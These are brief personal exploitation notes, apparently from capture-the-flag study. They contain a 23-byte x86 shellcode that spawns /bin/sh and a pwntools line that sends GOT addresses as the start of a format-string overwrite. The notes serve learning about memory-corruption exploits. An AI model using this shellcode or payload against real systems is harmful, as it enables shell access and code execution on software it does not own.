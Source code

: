 ###Rusty notes###

- scanf: terminated after space (be careful)
- fgets: need to fill with exact bytes

- shellcode payload:
payload = """
    xor eax,eax
    push eax
    push 0x68732f2f 
    push 0x6e69622f 
    mov ebx,esp
    push eax
    push ebx
    mov ecx,esp
    mov al,0xb
    int 0x80 
"""
size = 23 bytes

Too lazy to use format strings in pwntool so:
p.sendline(p32(got_addr)+p32(got_addr+1)+p32(got_addr+2)+p32(got_addr+3)

